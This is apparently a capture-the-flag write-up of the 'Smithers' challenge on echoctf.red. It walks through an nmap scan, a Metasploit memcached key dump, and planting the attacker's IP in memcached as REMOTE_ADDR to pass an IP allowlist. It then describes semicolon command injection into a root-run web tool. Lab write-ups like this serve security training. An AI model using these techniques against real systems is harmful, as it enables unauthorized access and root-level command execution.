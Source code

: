 ```yaml
---
layout: post
title:  "Smithers"
date:   2024-07-18 17:42:56 +0200
categories: ctf
---
```

![Smithers](/assets/smithers.png)

[Link to target](https://echoctf.red/target/5)

## Introduction
This post details the process of solving the "Smithers" challenge on echoctf.red.

## Enumeration Phase

### Nmap Scan
I start the reconnaissance with nmap:

```
PORT      STATE SERVICE   VERSION
10888/tcp open  http      nginx
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Network Tools
11211/tcp open  memcached Memcached 1.5.12 (uptime 224 seconds)
```

### Web Server on Port 10888
There is a web server running on port 10888:
![Webserver](/assets/webserver.png)

It mentions that these utilities are only available to authorized IP addresses.

### Extracting Information from Memcached with Metasploit
I use Metasploit to extract information from the memcached service:

```
msf6 > use auxiliary/gather/memcached_extractor

msf6 auxiliary(gather/memcached_extractor) > set rhosts 10.0.100.142 
rhosts => 10.0.100.142
msf6 auxiliary(gather/memcached_extractor) > exploit

[+] 10.0.100.142:11211    - Found 1 keys

Keys/Values Found for 10.0.100.142:11211
========================================

 Key     Value
 ---     -----
 ETSCTF  "VALUE ETSCTF 0 39\r\nETSCTF_<REDACTED>\r\nEND\r\n"

```

A flag is found in the memcached service.

## Exploitation Phase

### Using Telnet to Modify Memcached
The key is to store my IP address in the memcached service as `REMOTE_ADDR`. After some research, I use telnet to connect and store my IP address:

```
telnet 10.0.100.142 11211
Trying 10.0.100.142...
Connected to 10.0.100.142.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
<My IP>
STORED
```


### Accessing the Web Server
Once my address is stored, I can access the web server, which presents a command line interface:
![Webserver After](/assets/webserver_after.png)

Two flags are visible. Using a semicolon (`;`), I can run other commands and see that it runs as root. By executing:

```
grep -r 'ETSCTF' /
``` 

All flags are found.
